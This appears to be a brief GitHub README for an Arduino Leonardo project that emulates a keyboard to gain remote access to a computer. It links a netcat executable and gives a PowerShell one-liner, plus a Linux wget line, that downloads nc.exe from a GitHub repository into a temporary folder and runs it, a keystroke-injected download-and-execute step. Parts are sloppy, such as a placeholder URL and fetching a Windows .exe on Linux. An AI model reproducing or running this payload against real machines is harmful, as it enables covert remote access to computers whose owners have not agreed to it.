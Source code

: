 <p align="center"><img src="Logo-small.png" alt="Mark Text" ></p>
<h1 align="center">Remote access using Arduino</h1>
<br>


##### Why we use Arduino Leonard ?

Because we need to access on keyboard so it depends on Arduino leonard. Also this project is very simple. You can design another creation algorithm

<!-- Downloads total -->

[NETCAT](https://github.com/s0l0n3t/netcat1221/raw/master/nc.exe)

```c
For windows powershell: (new-object System.Net.WebClient).DownloadFile('netcat github url','%TEMP%\nc1221.exe'); Start-Process "%TEMP%\nc1221.exe"
linux: wget github.com/s0l0n3t/netcat1221/blob/master/nc.exe?raw=true
```
